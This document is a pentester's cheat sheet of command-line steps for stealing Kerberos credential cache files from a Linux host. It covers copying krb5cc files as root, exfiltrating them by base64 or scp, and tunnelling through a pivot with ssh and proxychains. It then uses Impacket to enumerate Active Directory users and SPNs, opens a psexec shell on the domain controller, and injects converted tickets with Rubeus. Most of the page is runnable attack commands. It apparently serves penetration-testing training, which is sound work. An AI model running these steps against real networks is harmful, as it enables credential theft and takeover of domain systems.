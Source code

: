 # Kerberos Cache File

## Attacking Credential Cache Files

* if have root access
* can copy cache file
* list cache files

```
ls -al /tmp/krb5cc_*
```

* copy the file and change the ownership

```
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow  
sudo chown kali:kali /tmp/krb5cc_minenow
```

* To use this you must set the environment variable and destroy any old tickets

```
kdestroy  
klist  
export KRB5CCNAME=/tmp/krb5cc_minenow  
klist
```

* tickets can now be requested on their behalf

```
kvno MSSQLSvc/DC01.test.domain:1433
```

* klist to view the newly added ticket

### Moving the krb5 file to your kali box

```
base64 -w0 filename
echo "b64" | base64 -d > krb5cc_mine
```

Then

```
export KRB5CCNAME=/location/krb5cc_mine
```

Verify

```
klist
```

Then test access with impacket psexec

### Kerberos with Impacket

* in order to perform ticket manipulation, we need to install the kerberos linux client utilities on the kali box

```
apt install krb5-user 
```

* If you screw up the install or need to change something
  * sudo dpkg-reconfigure krb5-config
  * We’ll also have to copy the ccache file previously obtained to our local Kali box

```
scp kali@linuxvictim:/tmp/krb5cc_minenow /tmp/krb5cc_minenow
```

* Next we’ll have to update the environment variable on our local kali box

```
export KRB5CCNAME=/tmp/krb5cc_minenow
```

* We’ll need to update the hosts file to map the hostnames to IP addresses

```
sudo echo '192.168.X.Y dc01.test.domain' >> /etc/hosts
sudo echo '192.168.X.Y test.domain' >> /etc/hosts
```

* Also the source IP address will have to be correct so proxychains will need to be used
* proxychains4.conf will need to comment out DNS

```
sed -i 's/proxy_dns/\#proxy_dns/g' dns.txt
```

* set up a socks server on the pivot host

```
ssh kali@linuxvictim -D 9050
```

* now proxychains & impacket can be used to interact with the remote host

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```

* Gather a list of SPNs available

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```

* get a shell on the remote box

```
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

* Renew

```
proxychains kinit -R
```

#### Convert ccache to Kirbi&#x20;

Convert ccache to kirbi

```
./ticket_converter.py admin.ccache admin.kirbi
```

inject ticket on compromised host

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

